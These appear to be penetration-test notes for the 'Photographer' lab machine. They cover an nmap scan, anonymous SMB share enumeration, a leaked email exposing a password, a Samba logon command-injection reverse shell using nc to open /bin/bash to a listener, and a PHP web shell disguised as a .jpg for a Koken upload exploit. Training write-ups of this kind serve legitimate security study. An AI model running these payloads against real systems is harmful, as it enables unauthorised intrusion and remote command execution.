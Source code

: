 # Photographer lab - Notes

## Target Details
```
http://192.168.119.76/
```

## Nmap Scanning 
```
Host is up (0.22s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8000/tcp open  http-alt
```

## Attacking smb client
```
https://docs.centrify.com/Content/zint-samba/ConfigurationUNIXAccess.htm


Connecting to the SMB ip address

smbclient -N -L //192.168.119.76
-L  listing the shares present
-N  accessing without password


Using smb map
smbmap -H "ipaddrr"
```

Samba shares present
```

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	sambashare      Disk      Samba on Ubuntu
	IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            PHOTOGRAPHER

```

Accessing a particular samba share
```
smbclient -N //ip/sharename
smbclient -N //192.168.119.76/sambashare
```

Files found
```
  mailsent.txt                    
  wordpress.bkp.zip       
```

Downloading files from smb
```
get filename.txt
get mailsent.txt
```


smb reverseshell
```
logon “/=`nc 192.168.49.119 4444 -e /bin/bash`"
nc -vvlp 4444
```


Contents of files found
```
Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
X-Accept-Language: en-us, en
MIME-Version: 1.0
To: Daisa Ahomi <daisa@photographer.com>
Subject: To Do - Daisa Website's
Content-Type: text/plain; charset=us-ascii; format=flowed
Content-Transfer-Encoding: 7bit
Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
```


Credentials
```
username : daisa@photographer.com
password : babygirl
```

Exploiting koken
```
https://www.exploit-db.com/exploits/48706
echo "<?php system(\$_GET['cmd']);?>" > image.php.jpg
```
